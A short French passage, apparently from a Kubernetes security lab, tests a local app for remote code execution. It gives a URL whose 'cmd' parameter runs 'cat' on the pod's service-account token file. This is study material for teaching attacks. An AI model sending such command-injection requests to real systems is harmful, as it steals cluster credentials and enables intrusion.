             ![](./images/Accueil_seckube1.PNG)

            Voyons si cette copie de l'application présente la vulnérabilité RCE en recherchant son jeton : http://localhost:5001/seckube?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token

            ![](./images/cmd_cat_token1.PNG)

